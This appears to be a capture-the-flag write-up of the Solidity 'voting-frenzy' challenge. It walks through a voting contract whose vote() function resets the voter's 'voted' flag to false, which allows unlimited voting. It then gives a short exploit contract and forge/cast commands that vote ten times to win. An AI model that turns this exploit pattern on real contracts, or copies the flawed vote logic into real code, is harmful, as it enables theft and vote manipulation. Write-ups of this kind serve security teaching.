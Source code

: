 This is some sort of voting, but it seems something is just not right? Well, let's see what the condition of `Setup.sol::isSolved()`

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Participants.sol";

contract Setup{
    PrizePoolBattle public immutable prizepool;
    Participant1 public immutable participant1;
    Participant2 public immutable participant2;
    Participant3 public immutable participant3;

    constructor() payable{
        require(msg.value >= 9 ether, "Need 9 ether to start challenge");
        prizepool = new PrizePoolBattle();
        participant1 = new Participant1{value: 5 ether}(address(prizepool));
        participant2 = new Participant2{value: 1 ether}(address(prizepool));
        participant3 = new Participant3{value: 3 ether}(address(prizepool));
    }

    function isSolved() public view returns(bool){
        (, uint winner) = prizepool.getWinner();
        return winner == 1;
    }

}
```

Well, the `isSolved()` function only returns true if the winner is the 1st party, we have to look into the `PrizePool Contract` to figure this out, but now let's analyze the constructor. It first deploy the `Prizepool Contract`, and another 3 participans with each 5, 1 and 3 Ether, now that we know that the initial setup is, let's see what the `Participant Contract` is all about.

```solidity
contract Participant1{
    PrizePoolBattle public immutable prizepool;

    constructor(address _target) payable{
        prizepool = PrizePoolBattle(_target);
        prizepool.addVoter{value: 5 ether}("Michelio");
        prizepool.vote(2);
    }
}
```

We are going to take a look at the first only since the other 2 are similar, it first call the `addVote()` with 5 Ether and "**Michelio**" as name I guess, and it votes for the 2nd Party, oh no our competitor it seems. Well let's see the real deal now, the `Prizepool Contract`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract PrizePoolBattle{
    struct Candidate {
        uint id;
        string name;
        uint voteCount;
    }

    struct Voter {
        uint id;
        string name;
        uint256 weight;
        bool voted;
    }

    mapping(uint => Candidate) public candidates;
    mapping(uint => Voter) public voters;
    mapping(address => bool) public votersExist;
    mapping(address => uint) public votersID;
    uint public candidatesCount;
    uint public votersCount;
    uint public winner;
    bool public winnerDeclared = false;

    event Voted(address indexed voter, uint indexed candidateId);
    event Winner(uint indexed candidateId, string name);

    modifier checkWinner(uint _candidateId) {
        _;
        if (candidates[_candidateId].voteCount >= 10 ether) {
            winnerDeclared = true;
            winner = _candidateId;
            emit Winner(_candidateId, candidates[_candidateId].name);
        }
    }

    constructor() {
        addCandidate("ENUMA");
        addCandidate("ALPHA");
    }

    function addCandidate(string memory _name) internal {
        require(
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ENUMA")) ||
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ALPHA")),
            "Only ENUMA or ALPHA can be added as candidates"
        );
        candidatesCount++;
        candidates[candidatesCount] = Candidate(candidatesCount, _name, 0);
    }
}
```

Let's view it part by part to make it more understandable, the first part of course the constructor, when this contract is deployed, it immediately call the `addCandidate()` function, this function will add a new candidates based on the `Id` as we can see on the `Struct Candidate` on the first few line, the `candidateCounts()` is the one responsible for giving the `Id` and the party can only be either `ENUMA` or `ALPHA`. Based on the constructor, we know that `ENUMA` has the `Id` of 1 and `ALPHA` has the `Id` of 2. 

The Modifier `checkWinner()` will check at the end of a function run, if a candidate has a vote of 10, it will declare the `winner`. Let's continue to the rest of the functions

```solidity
    function addVoter(string memory _name) public payable{
        require(!votersExist[msg.sender], "Voter has already been added.");
        votersCount++;
        uint256 weight = msg.value;
        voters[votersCount] = Voter(votersCount, _name, weight, false);
        votersID[msg.sender] = votersCount;
        votersExist[msg.sender] = true;
    }

    function vote(uint _candidateId) public checkWinner(_candidateId) {
        require(votersExist[msg.sender], "You are not an eligible voter.");
        require(!winnerDeclared, "The winner has already been declared.");
        require(_candidateId > 0 && _candidateId <= candidatesCount, "Invalid candidate ID.");
        uint id = votersID[msg.sender];
        require(voters[id].voted == false, "You already vote!");
        voters[id].voted = false;
        candidates[_candidateId].voteCount += voters[id].weight * 1;
        emit Voted(msg.sender, _candidateId);
    }

    function getCandidateVoteCount(uint _candidateId) public view returns (string memory name, uint voteCount) {
        Candidate storage candidate = candidates[_candidateId];
        return (candidate.name, candidate.voteCount);
    }

    function getWinner() public view returns(string memory name, uint id){
        Candidate storage candidate = candidates[winner];
        return (candidate.name, candidate.id);
    }
```

We got 4 functions here, the first one is `addVoter()`, this function seems to check whether someone is already registered or not and after that it will increate the `votersCount()` and push it to the struct of Voter. What we know here the weight of someone vote is determined by the money they put in, and at the end it ensures that we can only register once by changing the `votersExist()` to true.

Next up is the `vote()` function, we can see that the modifier `checkWinner()` is implemented here, menaing this function will be the one that trigger the change, it first has 3 check, to check wheter the voter exist, check the if the winner has been selected and the one we voted to be either 1 or 2 only. We can see there it will get our Id and check whether we already vote or not by checking the the `voted` attribute on our struct if it's already `true`, but here is the strange thing, after the check instead of setting the `voted` to true, it reset us to `false`, meaning even if we have a very low weight, we can vote multiple times! Here is the Logic error bug!

The next 2 function are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now.

- Party Number 2 (`ALPHA`) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (`ENUMA`) has 0 Vote
- We only have 1.2 Ether (based on `cast balance`)
- We have a logic error where we can vote unlimitedly.

We have 2 choices here, we can do it manually by registering via `addVoter()` and send the vote 10 times, or we can make a Smart contract that does that. In this approach I'm going to create a Smart Contract that does just that, and here is the code

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```

Here is how we can deploy our Exploit contract and solve the lab

```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```

Running the command above, you should've exploited the contract and get your flat.